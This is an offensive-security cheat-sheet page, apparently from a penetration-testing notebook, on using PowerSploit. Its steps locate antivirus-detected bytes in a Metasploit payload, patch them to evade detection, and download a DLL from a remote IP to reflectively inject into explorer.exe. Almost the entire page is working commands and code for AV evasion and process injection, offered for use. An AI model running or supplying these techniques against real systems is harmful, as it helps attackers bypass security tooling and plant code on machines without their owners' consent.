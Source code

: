 # PowerSploit

## PowerSploit

#### Installation

```csharp
git clone https://github.com/PowerShellMafia/PowerSploit
```

### Find-AVSignature

```csharp
powershell -exec bypass
. .\Find-AVSignature.ps1 

 Find-AVSignature -StartByte 180000 -EndByte 190000 -Interval 1000 -Path C:\temp\msfnonstaged.exe -OutPath C:\temp\msfnonstaged -Force -Verbose
```

![](../../.gitbook/assets/image%20%28138%29.png)

#### Change the detected bytes section

```csharp
$byte = [System.IO.File]::ReadAllBytes("C:\users\b3v1l\\msfnonstaged.exe") 
$byte[175830] = 0 // or 0xFF
[System.IO.File]::WriteAllBytes("C:\users\b3v1l\msf_modif.exe", $byte)
```

### DLL Reflection Injection

```csharp
 $bytes = (New-Object System.Net.WebClient).DownloadData('http://10.110.0.66/nice.dll')
 (Get-Process -Name "explorer").Id
 Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

{% hint style="info" %}
Error message can be ignored
{% endhint %}

![](../../.gitbook/assets/image%20%28189%29.png)

### Resources

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

